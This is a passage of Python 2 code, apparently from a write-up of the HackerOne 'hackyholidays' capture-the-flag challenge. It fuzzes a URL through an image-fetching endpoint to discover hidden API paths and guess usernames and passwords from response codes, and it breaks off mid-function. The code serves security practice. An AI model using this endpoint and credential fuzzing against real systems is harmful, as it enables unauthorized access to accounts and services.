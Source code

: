 ```py

pool = None
retry = []
username = []
password = []

def log_result(result):
    global retry

    if result:
        if result[1]:
            print "  [+] {}".format(result[0])
            print "  [+] Link: {}\n".format(result[1])
        else:
            print "  [!] {}".format(result[0])
            print "  [!] Added to retry list"
            retry.append(result[0])

def log_user_result(result):
    global pool, username, password

    if result:
        pool.terminate()
        if result[1] == "username":
            username = result[0].split()
        elif result[1] == "password":
            password = result[0].split()
 
def multi_request_api(base, word):
    s = requests.Session()

    # Fuzz and get the generated link
    res1 = s.get(base.replace('FUZZ', word))
    soup = BeautifulSoup(res1.content, features="html.parser")
    
    # Check if the end-point exists
    link = 'https://hackyholidays.h1ctf.com' + soup.find("img", {"class": "img-responsive"})['src']
    res2 = s.get(link)

    # Server instabilities
    if 'Received: 500' in res2.text:
        return [word, None]
    
    # Wrong guess
    if  'Received: 0' in res2.text or \
        'Received: 400' in res2.text or \
        'Received: 404' in res2.text:
        return False

    return [word, link]

def multi_request_user(base, word, param):
    s = requests.Session()

    # Fuzz and get the generated link
    res1 = s.get(base.replace('FUZZ', word))
    soup = BeautifulSoup(res1.content, features="html.parser")

    # Check if the word exists
    link = 'https://hackyholidays.h1ctf.com' + soup.find("img", {"class": "img-responsive"})['src']
    res2 = s.get(link)

    # Correct Guess
```